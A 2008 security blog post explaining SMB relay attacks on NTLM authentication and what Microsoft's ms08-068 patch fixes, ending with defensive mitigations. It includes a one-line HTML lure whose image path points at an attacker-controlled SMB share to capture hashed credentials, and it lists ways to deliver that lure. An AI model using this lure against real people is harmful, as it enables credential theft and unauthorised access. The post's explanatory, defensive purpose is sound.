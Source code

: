 ```yaml
---
id: 110
title: 'ms08-068 &#8212; Preventing SMBRelay Attacks'
date: '2008-11-12T12:38:29-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=110'
permalink: /2008/ms08-068-preventing-smbrelay-attacks
categories:
    - Hacking
    - NetBIOS/SMB
---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading <a href='http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html'>The Metasploit Blog</a>. 
<!--more-->
Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusion. Just leave me a comment or an email! 

I have talked about how <a href='http://www.skullsecurity.org/blog/?p=34'>Lanman and NTLM</a> work (or fail to work) in the past, so I'll assume you've read that and just post a quick overview here. Basically, Lanman and NTLM will hash your password using their respective algorithms (and store the hashes on the system), then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. If an attacker already has access to the Lanman and NTLM hashes, then the game has already been won (the hashes can be directly used to log in). 

The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt-like value to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that. This type of attack has been fixed in NTLMv2 (since the client provides part of the randomness). 

A SMB Relay attack is a type of man-in-the-middle attack where the attacker asks the victim to authenticate to a machine controlled by the attacker, then relays the credentials to the target. The attacker forwards the authentication information both ways, giving him access. Here are the players in this scenario:
<ul>
<li>The <b>attacker</b> is the person trying to break into the target</li>
<li>The <b>victim</b> is the person who has the credentials</li>
<li>The <b>target</b> is the system the attacker wants access to, and that the victim has credentials for</li>
</ul>

And here's the scenario (see the image at the right for a diagram):
<img src='http://www.skullsecurity.org/blogdata/ms08-068-1.png' style='float: right;' />
<ol>
<li>Attacker tricks the victim into connecting to him; this is easy, I'll explain how later</li>
<li>Attacker establishes connection to the target, receives the 8-byte challenge</li>
<li>Attacker sends the 8-byte challenge to victim</li>
<li>Victim responds to the attacker with the password hash</li>
<li>Attacker responds to the target's challenge with the victim's hash</li>
<li>Target grants access to attacker</li>
</ol>

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important, and it's discussed on the Metasploit blog posting. 

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the attacker, and the victim needs to have access to the target. 

The first problem is easy to solve -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:
<pre>&lt;img src="\\Attacker\SHARE\file.jpg"&gt;</pre>

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, for the attack, this is the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by vandalizing a site they frequent, redirecting them with DNS poisoning, ARP spoofing, <a href='http://www.skullsecurity.org/blog/?p=6'>NetBIOS poisoning</a>, and any number of other ways. Suffice to say, it's pretty easy to trick the victim into connecting to the attacker. 


The second problem is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:
<ul>
<li>In a domain scenario, the user's domain account may have access to multiple machines, including the target</li>
<li>In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work</li>
<li>The target may be the <i>same physical machine as the victim</i></li>
</ul>

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps (see the image at the right, although I think it's probably more confusing :) ):
<img src='http://www.skullsecurity.org/blogdata/ms08-068-2.png' style='float: right;' />
<ol>
<li>Attacker tricks the victim into connecting to him</li>
<li>Attacker establishes connection back to the victim, receives the 8-byte challenge</li>
<li>Attacker sends the victim's 8-byte back</li>
<li>Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer</li>
<li>Attacker responds to the victim's challenge with the victim's hash</li>
<li>Victim grants access to attacker</li>
</ol>

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials. 

And this particular attack is what ms08-068 patches! 

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself. 

<h2>Mitigation</h2>
I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):
<ul>
<li>Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness</li>
<li>Enable (and require) message signing for both clients and servers -- this will prevent relay attacks</li>
<li>Install ms08-068 -- this will prevent a specific subset of relay attacks, where it's relayed back to itself</li>
</ul>

Hope that helps! 

And, as usual, if you have any questions feel free to track me down. 

Ron
